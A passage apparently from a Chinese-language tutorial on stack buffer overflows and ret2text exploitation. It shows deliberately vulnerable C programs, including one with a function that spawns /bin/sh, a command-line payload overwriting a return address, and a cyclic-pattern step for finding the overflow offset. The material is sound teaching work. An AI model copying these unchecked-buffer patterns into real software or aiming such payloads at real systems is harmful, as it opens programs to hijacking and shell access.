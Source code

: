 ```

 int main(int argc, char **argv) {
  vulnerable(argv[1]);
  return (0);
 }

```

**分析调试**

执行程序的时候函数 ShouldNotBeCalled 一直没有被调用。函数vulnerable只有一个操作就是将成员变量拷贝到只有10bytes大小的缓存buff中。此外我们还将禁用空间格局随机化Address Space Layout Randomization (ASLR)让利用场景变得更简单些。调试如下：

```
 $ ./exploit1 `python -c "print 'A'*22+'\x83\x84\x04\x08'"`
 I Should Never Be Called
```



### ret2text (x64)

**示例代码**

```
// 编译: gcc -fno-stack-protector level3.c -o level3
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void callsystem()
{
    system("/bin/sh");
}

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
}
```

**分析调试**

打开ASLR并编译目标程序。通过分析源码，我们可以看到想要获取这个程序的shell非常简单，只需要控制PC指针跳转到callsystem()这个函数的地址上即可。因为程序本身在内存中的地址不是随机的，所以不用担心函数地址发生改变。定位溢出点：

```
$ python pattern.py create 150 > payload
$ cat payload
Aa0Aa1Aa2Aa(...skip...)7Ae8Ae9
```
